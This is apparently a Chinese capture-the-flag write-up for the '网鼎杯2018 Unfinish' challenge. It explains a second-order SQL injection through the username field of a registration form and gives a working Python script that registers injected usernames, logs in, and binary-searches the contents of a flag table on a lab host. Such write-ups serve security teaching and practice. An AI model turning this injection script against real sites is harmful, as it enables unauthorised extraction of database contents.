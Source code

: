 # [网鼎杯2018]Unfinish

## 知识点

`SQL注入` 

`二次注入`

## 解题

首先进入发现一个登录框，爆破了一下弱口令失败，扫描目录发现`register.php`,注册登录后发现`显示用户名`，猜测是用户名`sql注入`，`fuzz`看看过滤了哪些

![](./img/[网鼎杯2018]Unfinish-1.png)

发现`,`、`'`、`information_schema`被过滤了，失败返回`200`，正常返回`302`

`sql`中相加是会先转化成数字（和`php`类似，弱类型）再进行相加。我们构造类似`'0'+'x'+'0'` 而其中的`x`就是我们的判断语句。如果`x`成立就会在`index.php`中回显用户名 `1` 否则为`0` 。

为了更好的定位到数字，构造`'665'+'x'+'0'`

```python
import requests
import time
from urllib.parse import urljoin
import random


url = 'http://4ba6197a-f470-41b7-80ae-fe8473d1f80b.node5.buuoj.cn:81/'

register_url = urljoin(url, 'register.php')

login_url = urljoin(url, 'login.php')


payload = "665'+(ascii(substr((select database()) from {} for 1)) <{})+'0"
payload = "665'+(ascii(substr((select * from flag) from {} for 1)) <{})+'0"

def running(db_length):
    result = ''
    for i in range(1, db_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            email = f"{random.randint(20000, 9000000)}@qq.com"
            session = requests.session()
            register_data = {
                'email': email,
                'username': payload.format(i, mid),
                'password': '123'
            }
            print(f"low:{low}\t\thigh:{high}\t\t" + payload.format(i, mid))
            register_resp = session.post(url=url + 'register.php', data=register_data, timeout=8)
            if register_resp.status_code == 429:
                time.sleep(5)
            else:
                login_data = {
                    'email': email,
                    'password': '123'
                }
                login_resp = session.post(url=login_url, data=login_data)
                if login_resp.status_code == 429:
                    time.sleep(5)
                else:
                    if "666" in login_resp.text:
                        high = mid
                    else:
                        low = mid + 1
                    mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        result += chr(mid - 1)
        print(result)
    print(f"result is: {result}")
    return result


if __name__ == '__main__':
    result = running(100)
```

[参考代码](https://mayi077.gitee.io/2020/08/18/%E7%BD%91%E9%BC%8E%E6%9D%AF2018-Unfinish/)